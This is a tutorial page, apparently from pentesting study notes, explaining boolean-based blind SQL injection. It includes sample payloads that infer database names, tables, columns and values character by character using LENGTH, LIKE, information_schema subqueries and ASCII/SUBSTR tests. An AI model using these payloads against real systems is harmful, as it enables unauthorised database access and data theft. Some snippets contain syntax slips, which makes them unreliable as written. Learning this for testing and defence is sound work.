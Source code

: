# Boolean-based SQLi

[Go back](../sql.md)

<div class="row row-cols-md-2"><div>

Boolean-based SQLi involve injecting SQL bit by bit while only having one output: ok or failed.

For instance, if you have a page telling you if a user exists. If this page return "true" for a username `toto`:

```text!
GET /account?username=toto
```
</div><div>

If you try to inject some SQL "`toto' AND 1=0-- -`"

```text!
GET /account?id=toto' AND 1=0-- -
```

The response will indicate that the username does not exist, but as you know it exists from the previous request, we can infer that the trailing injected code failed (`AND 1=0-- -`).
</div></div>

<hr class="sep-both">

## Manual Boolean-based SQLi

<div class="row row-cols-md-2"><div>

Manually exploiting a Boolean-based SQLi is hard and lengthy. You will do exactly what we do during [Union-based SQL](union_sqli.md#manual-union-based-sqli), aside from the fact that you work letter by letter.

* **Number of columns selected** - unchanged
* **Find the type of each column** - unchanged
* **Find which columns are displayed** - unchanged
* **Find the DBMS used** - letter by letter
* **Extract data** - letter by letter

➡️ All examples below are with `database()`, but you will have to use comparisons to find the DMBS, the database, the table, the columns, and even to extract the values in the table.

Before testing each letter, we should check the length of the text you want to guess to mentally prepare ourselves. 

```text!
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

Then, we may use `LIKE` to rather easily find the name:

```text!
' AND database() LIKE '%' -- - // test; should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```
</div><div>

There may be multiple databases starting with the same letter. To know if there are more, you have to exclude the one you found.

```text!
' AND database() != 'my_example' AND database() LIKE 'my_%' -- -
[...]
```

For some conditions, you may use something like this:

```text!
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```

You can't always use LIKE, and may have to fall back to ASCII.

```text!
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'

-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1)) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```
</div></div>